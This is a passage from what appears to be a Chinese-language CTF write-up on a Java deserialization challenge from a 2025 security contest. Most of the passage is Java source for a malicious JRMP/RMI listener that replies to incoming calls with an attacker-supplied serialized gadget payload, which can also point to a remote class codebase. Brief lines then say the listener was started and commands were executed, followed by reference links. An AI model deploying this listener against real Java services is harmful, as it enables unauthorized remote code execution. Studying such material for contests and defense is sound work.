                        if (magic != TransportConstants.Magic || version != TransportConstants.Version) {  
                            s.close();  
                            continue;  
                        }  
  
                        OutputStream sockOut = s.getOutputStream();  
                        BufferedOutputStream bufOut = new BufferedOutputStream(sockOut);  
                        DataOutputStream out = new DataOutputStream(bufOut);  
  
                        byte protocol = in.readByte();  
                        switch (protocol) {  
                            case TransportConstants.StreamProtocol:  
                                out.writeByte(TransportConstants.ProtocolAck);  
                                if (remote.getHostName() != null) {  
                                    out.writeUTF(remote.getHostName());  
                                } else {  
                                    out.writeUTF(remote.getAddress().toString());  
                                }  
                                out.writeInt(remote.getPort());  
                                out.flush();  
                                in.readUTF();  
                                in.readInt();  
                            case TransportConstants.SingleOpProtocol:  
                                doMessage(s, in, out, this.payloadObject);  
                                break;  
                            default:  
                            case TransportConstants.MultiplexProtocol:  
                                System.err.println("Unsupported protocol");  
                                s.close();  
                                continue;  
                        }  
  
                        bufOut.flush();  
                        out.flush();  
                    } catch (InterruptedException e) {  
                        return;  
                    } catch (Exception e) {  
                        e.printStackTrace(System.err);  
                    } finally {  
                        System.err.println("Closing connection");  
                        s.close();  
                    }  
  
                }  
  
            } finally {  
                if (s != null) {  
                    s.close();  
                }  
                if (this.ss != null) {  
                    this.ss.close();  
                }  
            }  
  
        } catch (SocketException e) {  
            return;  
        } catch (Exception e) {  
            e.printStackTrace(System.err);  
        }  
    }  
  
    private void doMessage(Socket s, DataInputStream in, DataOutputStream out, Object payload) throws Exception {  
        System.err.println("Reading message...");  
  
        int op = in.read();  
  
        switch (op) {  
            case TransportConstants.Call:  
                // service incoming RMI call  
                doCall(in, out, payload);  
                break;  
  
            case TransportConstants.Ping:  
                // send ack for ping  
                out.writeByte(TransportConstants.PingAck);  
                break;  
  
            case TransportConstants.DGCAck:  
                UID u = UID.read(in);  
                break;  
  
            default:  
                throw new IOException("unknown transport op " + op);  
        }  
  
        s.close();  
    }  
  
    private void doCall(DataInputStream in, DataOutputStream out, Object payload) throws Exception {  
        ObjectInputStream ois = new ObjectInputStream(in) {  
  
            @Override  
            protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {  
                if ("[Ljava.rmi.server.ObjID;".equals(desc.getName())) {  
                    return ObjID[].class;  
                } else if ("java.rmi.server.ObjID".equals(desc.getName())) {  
                    return ObjID.class;  
                } else if ("java.rmi.server.UID".equals(desc.getName())) {  
                    return UID.class;  
                }  
                throw new IOException("Not allowed to read object");  
            }  
        };  
  
        ObjID read;  
        try {  
            read = ObjID.read(ois);  
        } catch (java.io.IOException e) {  
            throw new MarshalException("unable to read objID", e);  
        }  
  
  
        if (read.hashCode() == 2) {  
            ois.readInt(); // method  
            ois.readLong(); // hash  
            System.err.println("Is DGC call for " + Arrays.toString((ObjID[]) ois.readObject()));  
        }  
  
        System.err.println("Sending return with payload for obj " + read);  
  
        out.writeByte(TransportConstants.Return);// transport op  
        ObjectOutputStream oos = new MarshalOutputStream(out, this.classpathUrl);  
  
        oos.writeByte(TransportConstants.ExceptionalReturn);  
        new UID().write(oos);  
  
        BadAttributeValueExpException ex = new BadAttributeValueExpException(null);  
        Reflections.setFieldValue(ex, "val", payload);  
        oos.writeObject(ex);  
  
        oos.flush();  
        out.flush();  
  
        this.hadConnection = true;  
        synchronized (this.waitLock) {  
            this.waitLock.notifyAll();  
        }  
    }  
  
    public static class Dummy implements Serializable {  
        private static final long serialVersionUID = 1L;  
  
    }  
  
    static final class MarshalOutputStream extends ObjectOutputStream {  
  
  
        private URL sendUrl;  
  
        public MarshalOutputStream(OutputStream out, URL u) throws IOException {  
            super(out);  
            this.sendUrl = u;  
        }  
  
        MarshalOutputStream(OutputStream out) throws IOException {  
            super(out);  
        }  
  
        @Override  
        protected void annotateClass(Class<?> cl) throws IOException {  
            if (this.sendUrl != null) {  
                writeObject(this.sendUrl.toString());  
            } else if (!(cl.getClassLoader() instanceof URLClassLoader)) {  
                writeObject(null);  
            } else {  
                URL[] us = ((URLClassLoader) cl.getClassLoader()).getURLs();  
                String cb = "";  
  
                for (URL u : us) {  
                    cb += u.toString();  
                }  
                writeObject(cb);  
            }  
        }  
  
  
        /**  
         * Serializes a location from which to load the specified class.         */        @Override  
        protected void annotateProxyClass(Class<?> cl) throws IOException {  
            annotateClass(cl);  
        }  
    }  
}
```

运行开启监听



最后成功执行命令，



​

参考：<https://vidar-team.feishu.cn/docx/ScXKd2ISEo8dL6xt5imcQbLInGc>

参考：[https://blog.potatowo.top/2025/03/23/软件系统安全赛2025华东赛区半决赛wp-web](https://blog.potatowo.top/2025/03/23/%E8%BD%AF%E4%BB%B6%E7%B3%BB%E7%BB%9F%E5%AE%89%E5%85%A8%E8%B5%9B2025%E5%8D%8E%E4%B8%9C%E8%B5%9B%E5%8C%BA%E5%8D%8A%E5%86%B3%E8%B5%9Bwp-web)

参考：[https://gsbp0.github.io/post/软件攻防赛现场赛上对justdeserialize攻击的几次尝试/](https://gsbp0.github.io/post/%E8%BD%AF%E4%BB%B6%E6%94%BB%E9%98%B2%E8%B5%9B%E7%8E%B0%E5%9C%BA%E8%B5%9B%E4%B8%8A%E5%AF%B9justdeserialize%E6%94%BB%E5%87%BB%E7%9A%84%E5%87%A0%E6%AC%A1%E5%B0%9D%E8%AF%95/)
